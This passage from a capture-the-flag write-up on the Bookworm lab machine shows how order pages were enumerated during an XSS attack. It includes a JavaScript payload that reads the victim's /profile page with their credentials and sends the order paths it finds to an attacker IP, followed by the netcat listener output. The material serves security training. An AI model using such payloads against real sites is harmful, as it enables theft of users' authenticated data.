       </tbody>
    </table>
    

#### Order Page

There’s a note on the `/basket` page about being able to download earlier
orders as e-books:

![image-20240116131019079](../img/image-20240116131019079.png)

To see what that looks like, I’ll check out these orders, updating my script
first to:

    
    
    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      var regex = /\/order\/\d+/g;
      while ((match = regex.exec(resptext)) !== null) {
        fetch("http://10.10.14.6" + match);
      };
    });
    

I’ll run `nc -klnvp 80` so that it stays open and handles multiple requests on
80. When this executes, I get the IDs from the target profile:

    
    
    oxdf@hacky$ nc -lnkvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.215 44720
    GET /order/16 HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate
    
    Connection received on 10.10.11.215 44722
    GET /order/17 HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate
    